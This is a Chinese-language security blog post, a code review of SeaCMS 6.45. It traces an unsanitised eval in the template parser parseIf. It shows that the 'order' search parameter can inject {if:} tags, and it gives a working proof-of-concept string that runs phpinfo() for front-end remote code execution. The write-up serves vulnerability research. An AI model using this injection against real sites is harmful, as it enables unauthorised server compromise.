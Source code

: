```yaml
---
title: seacms v6.5 前台getshell
date: 2017-03-16 15:47:15
tags: 
 - cms
categories: codereview
---
```


## 概述
前段时间放在[90sec](https://forum.90sec.org/forum.php?mod=viewthread&tid=10291)上的一篇代码审计，收拾一下放到自己博客上
<!-- more -->
# 分析
cms版本：6.45
直接上代码
```
function parseIf($content){
		if (strpos($content,'{if:')=== false){
		return $content;
		}else{
		$labelRule = buildregx("{if:(.*?)}(.*?){end if}","is");
		$labelRule2="{elseif";
		$labelRule3="{else}";
		preg_match_all($labelRule,$content,$iar);
		$arlen=count($iar[0]);
		$elseIfFlag=false;
		for($m=0;$m<$arlen;$m++){
			$strIf=$iar[1][$m];
			$strIf=$this->parseStrIf($strIf);
			$strThen=$iar[2][$m];
			$strThen=$this->parseSubIf($strThen);
			if (strpos($strThen,$labelRule2)===false){
				if (strpos($strThen,$labelRule3)>=0){
					$elsearray=explode($labelRule3,$strThen);
					$strThen1=$elsearray[0];
					$strElse1=$elsearray[1];
                    echo "if(".$strIf.") { \$ifFlag=true;} else{ \$ifFlag=false;}";
                    eval("if(".$strIf."){\$ifFlag=true;}else{\$ifFlag=false;}");
					if ($ifFlag){ $content=str_replace($iar[0][$m],$strThen1,$content);} else {$content=str_replace($iar[0][$m],$strElse1,$content);}
				}else{
				@eval("if(".$strIf.") { \$ifFlag=true;} else{ \$ifFlag=false;}");
				if ($ifFlag) $content=str_replace($iar[0][$m],$strThen,$content); else $content=str_replace($iar[0][$m],"",$content);}
			}else{
				$elseIfArray=explode($labelRule2,$strThen);
				$elseIfArrayLen=count($elseIfArray);
				$elseIfSubArray=explode($labelRule3,$elseIfArray[$elseIfArrayLen-1]);
				$resultStr=$elseIfSubArray[1];
				$elseIfArraystr0=addslashes($elseIfArray[0]);
				@eval("if($strIf){\$resultStr=\"$elseIfArraystr0\";}");
				for($elseIfLen=1;$elseIfLen<$elseIfArrayLen;$elseIfLen++){
					$strElseIf=getSubStrByFromAndEnd($elseIfArray[$elseIfLen],":","}","");
					$strElseIf=$this->parseStrIf($strElseIf);
					$strElseIfThen=addslashes(getSubStrByFromAndEnd($elseIfArray[$elseIfLen],"}","","start"));
					@eval("if(".$strElseIf."){\$resultStr=\"$strElseIfThen\";}");
					@eval("if(".$strElseIf."){\$elseIfFlag=true;}else{\$elseIfFlag=false;}");
					if ($elseIfFlag) {break;}
				}
				$strElseIf0=getSubStrByFromAndEnd($elseIfSubArray[0],":","}","");
				$strElseIfThen0=addslashes(getSubStrByFromAndEnd($elseIfSubArray[0],"}","","start"));
				if(strpos($strElseIf0,'==')===false&&strpos($strElseIf0,'=')>0)$strElseIf0=str_replace('=', '==', $strElseIf0);
				@eval("if(".$strElseIf0."){\$resultStr=\"$strElseIfThen0\";\$elseIfFlag=true;}");
				$content=str_replace($iar[0][$m],$resultStr,$content);
			}
		}
		return $content;
		}
	}
```
上面主要逻辑为解析html文件中的{if:}{end if}标签代码，可以看到没有做任何处理就eval，那么我们查找一下对应调用的地方会不会有漏洞。
主要关注前台，找到一处解析搜索结果的页面（search.php），代码比较多，一点一点来看。
找到调用的位置line 212`$content=$mainClassObj->parseIf($content);`
往上看，发现他的逻辑是先解析其他类型的标签，比如`{searchpage:page}`
那么接下来的思路，主要是2点，查找对应if标签可控的位置，另一种就是查找其他标签的可控内容，写入if标签
我找到一处其他标签可控且没有做任何处理的位置，直接写入if标签语句即可造成任意代码执行
```
function echoSearchPage()
{
        global $dsql,$cfg_iscache,$mainClassObj,$page,$t1,$cfg_search_time,$searchtype,$searchword,$tid,$year,$letter,$area,$yuyan,$state,$ver,$order,$jq,$money,$cfg_basehost;
        $order = !empty($order)?$order:time;
...
...
...
$content = str_replace("{searchpage:page}",$page,$content);
        $content = str_replace("{seacms:searchword}",$searchword,$content);
        $content = str_replace("{seacms:searchnum}",$TotalResult,$content);
        $content = str_replace("{searchpage:ordername}",$order,$content);
...
...
...
```
order变量可控并且在调用parseIf函数前先解析，所以我们可以通过order写入if标签。
查看一下具体html代码
```
<div class="btn-toolbar" role="toolbar">
    <div class="btn-group">
      <a href="{searchpage:order-time-link}" {if:"{searchpage:ordername}"=="time"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderhits">最新上映</a>
      <a href="{searchpage:order-hit-link}" {if:"{searchpage:ordername}"=="hit"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderaddtime">最近热播</a>
      <a href="{searchpage:order-score-link}" {if:"{searchpage:ordername}"=="score"} class="btn btn-success" {else} class="btn btn-default" {end if} id="ordergold">评分最高</a>
    </div>
  </div>
```
那么接下来就可以构造poc了，类似sql注入，我们先把前面的if标签语句闭合，写入恶意代码并闭合后面的if标签。
example：`}{end if}{if:1)phpinfo();if(1}{end if}`
本地验证一下
![](http://blog.0kami.cn/img/seacms/1.png)

# 总结
这是一个比较经典的漏洞，也可以被称为模版解析吧我觉得：）
ps: 后悔啊，没有先提交个poc平台T_T



